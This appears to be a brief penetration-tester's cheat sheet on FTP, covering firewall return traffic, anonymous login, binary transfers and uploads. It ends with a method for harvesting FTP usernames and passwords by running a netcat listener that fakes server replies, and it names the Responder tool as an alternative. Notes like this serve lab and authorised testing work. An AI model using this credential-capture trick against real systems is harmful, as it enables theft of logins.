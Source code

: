 ## UFW 

Pay attention with ```ufw```
it's not allowing the return of the connection
To resolve that : ```ufw allow from <ip>```

---

## Generality

- Always try anonymous connection

- Windows : ```ftp -i```

- Linux : type ```binary``` when authenticated for the transfer, or it could fail when you want to execute the program on your attacking machine.

- upload a file : before connecting to the ftp, go to the folder where your file is located, then ftp to the server, then ```mput <yourfile>``` 

---

## FTP autologin from remote to you

- Wait connection on ```nc -nvlp 21```
- Send : ```220 something```
- You have the user
- Then : ```331 <user> something```
- you have the pass


- or you can simply launch responder :)